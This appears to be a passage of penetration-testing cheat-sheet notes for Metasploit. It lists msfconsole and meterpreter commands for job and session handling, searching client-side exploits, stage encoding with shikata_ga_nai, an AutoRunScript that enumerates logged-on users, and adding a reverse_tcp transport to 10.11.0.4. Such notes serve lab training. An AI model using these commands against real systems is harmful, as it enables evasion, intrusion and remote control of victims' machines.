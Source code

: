 ```

jobs

jobs -i 0

kill 0

```

###### Client Side Attacks

```

msfvenom -l formats

msf5> search flash

```

Advanced features - 

Encoding

```
msf5 exploit(multi/handler) > show advanced

set EnableStageEncoding true

set StageEncoder x86/shikata_ga_nai

exploit -j

```
AutoRunScript

```
msf5 exploit(multi/handler) > set AutoRunScript windows/gather/enum_logged_on_users

exploit -j

```

```
meterpreter > background

msf5 exploit(multi/handler) > sessions -l

session -i 5

meterpreter > transport list

transport add -t reverse_tcp -l 10.11.0.4 -p 5555

transport list


```
